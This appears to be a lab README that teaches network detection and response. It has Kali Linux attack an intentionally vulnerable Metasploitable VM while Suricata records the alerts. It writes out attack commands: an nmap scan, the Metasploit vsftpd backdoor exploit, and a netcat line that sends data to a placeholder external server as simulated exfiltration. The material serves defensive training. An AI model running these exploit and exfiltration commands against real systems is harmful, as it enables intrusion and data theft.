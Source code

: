 # Exploring Network Detection and Response (NDR) with Kali Linux and Metasploitable

## Objective

The purpose of this lab is to provide hands-on experience with Network Detection and Response (NDR) solutions by simulating real-world attacks using Kali Linux and Metasploitable. Participants will learn how to identify vulnerabilities, exploit them, and analyze how an NDR system detects and responds to malicious activities within a network.

## Prerequisites
- Basic understanding of network security concepts.
- Familiarity with penetration testing tools (e.g., Metasploit).
- Access to a virtual lab environment with Hyper-V installed.

## Lab Environment
- Kali Linux: A powerful penetration testing distribution that includes numerous tools for ethical hacking and network security assessments.
- Metasploitable: An intentionally vulnerable Linux distribution designed for testing and training purposes. It allows participants to practice penetration testing techniques.
- NDR Solution (e.g., Suricata or Zeek): An open-source monitoring tool that provides visibility into network traffic, detects anomalies, and can simulate some NDR functionalities.

## Key Learning Outcomes
- Understand the principles of NDR and its importance in modern cybersecurity.
- Gain hands-on experience in reconnaissance, exploitation, and post-exploitation techniques.
- Analyze alerts and logs generated by the NDR solution during simulated attacks.
- Discuss the effectiveness of NDR in detecting and mitigating threats.

## Lab Activities
- Reconnaissance: Use nmap to scan the Metasploitable VM, identifying open ports and services.
- Exploitation: Utilize Metasploit to exploit vulnerabilities in Metasploitable, demonstrating common attack techniques.
- Post-Exploitation: Simulate actions an attacker might take after gaining access, such as privilege escalation and data exfiltration.
- Monitoring and Analysis: Observe and analyze alerts generated by the NDR solution, discussing detection capabilities and incident response.

Lab Activities
Activity 1: Reconnaissance
Objective: Identify open ports and services on the Metasploitable VM.

Steps:

Open a terminal in Kali Linux.
Run Nmap to scan the Metasploitable VM:
bash
Copy code
nmap -sS -sV -p- <Metasploitable_IP>
Analyze the output to identify open ports and running services.
Activity 2: Exploitation
Objective: Exploit vulnerabilities in Metasploitable to simulate an attack.

Steps:

Launch Metasploit:
bash
Copy code
msfconsole
Search for available exploits for Metasploitable services (e.g., vsftpd):
bash
Copy code
search vsftpd
Select and configure the exploit:
bash
Copy code
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <Metasploitable_IP>
exploit
Verify access by interacting with the session.
Activity 3: Post-Exploitation Actions
Objective: Simulate actions an attacker might take after gaining access.

Steps:

Privilege Escalation (if applicable):
Attempt to escalate privileges using techniques like sudo -l.
Data Gathering:
Run commands to gather system information:
bash
Copy code
uname -a
whoami
Simulated Data Exfiltration:
Use a command to send data to a controlled external server (or simply log it):
bash
Copy code
echo "Sensitive Data" | nc <your_external_server_IP> <port>
Activity 4: Monitoring and Analysis
Objective: Simulate monitoring and analyze alerts related to the activities performed.

Install and Run an Open-Source NDR Tool:

If using Suricata:
Install Suricata:
bash
Copy code
sudo apt update
sudo apt install suricata
Configure Suricata to monitor the appropriate network interface.
Start Suricata:
bash
Copy code
sudo suricata -c /etc/suricata/suricata.yaml -i eth0
Review Logs:

Check logs for alerts generated during the reconnaissance, exploitation, and post-exploitation activities:
bash
Copy code
cat /var/log/suricata/fast.log
Discussion and Analysis
Review the types of attacks conducted and how they might be detected by an NDR solution.
Analyze the alerts generated by Suricata or expected alerts from typical NDR systems.
Discuss how the knowledge gained can be applied to enhance network security measures.

## Ethical Considerations
This lab is intended for educational purposes only. Participants are reminded to operate within a controlled environment and adhere to ethical hacking principles. All activities should be performed in compliance with relevant laws and organizational policies.
